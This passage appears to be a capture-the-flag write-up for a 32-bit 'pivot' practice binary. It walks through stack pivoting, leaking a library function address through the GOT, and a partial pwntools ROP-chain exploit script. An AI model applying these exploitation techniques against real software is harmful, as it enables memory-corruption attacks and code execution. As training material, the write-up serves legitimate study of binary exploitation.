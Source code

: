# 0x07 pivot

When the stack space we overflow is small, we should use the stack pivot technique that we move our stack pointer to the controllable address and continue the rop chain. Actually, there are usefulGadgets in the binary file:

```
.text:080488C0                 public usefulGadgets
.text:080488C0 usefulGadgets:
.text:080488C0                 pop     eax
.text:080488C1                 retn
.text:080488C2 ; ---------------------------------------------------------------------------
.text:080488C2                 xchg    eax, esp
.text:080488C3                 retn
.text:080488C4 ; ---------------------------------------------------------------------------
.text:080488C4                 mov     eax, [eax]
.text:080488C6                 retn
.text:080488C7 ; ---------------------------------------------------------------------------
.text:080488C7                 add     eax, ebx
.text:080488C9                 retn
.text:080488C9 ; ---------------------------------------------------------------------------
```

With the heap address author leaks to us, we could pivot there by using eax register. The address of ret2win function in libpivot.so is ASLRed. I could get the actual address of 0x0000077C throught eax if there wasn't printf call in foothold_function. So the only way to leak address is to use `mov eax [eax]` gadget to read the got table. Don't forget that the actual address only can be got after the function was called once beacuse of lazy binding.

## pivot32

```python
import re
from pwn import *

p = process("./pivot32")
#gdb.attach(p)
pivot_address = int(re.search(r"0x.*?\b", p.recvuntil("> ")).group(), 16)

# 0x080488c0 : pop eax ; ret
pop_eax = 0x080488c0
# 0x080488c4 : mov eax, dword ptr [eax] ; ret
mov_eax = 0x080488c4
# 0x08048571 : pop ebx ; ret
pop_ebx = 0x08048571
# 0x080488c7 : add eax, ebx ; ret
add_eax_ebx = 0x080488c7
# 0x080486a3 : call eax
call_eax = 0x080486a3

foothold_got_address = 0x0804A024
foothold_plt_address = 0x080485F0
ebx_value = 0x00000967 - 0x00000770

stage_two = ""
stage_two += "B" * 32
stage_two += p32(foothold_plt_address)
stage_two += p32(pop_eax)
stage_two += p32(foothold_got_address)
stage_two += p32(mov_eax)
stage_two += p32(pop_ebx)
stage_two += p32(ebx_value)
stage_two += p32(add_eax_ebx)
stage_two += p32(call_eax)
```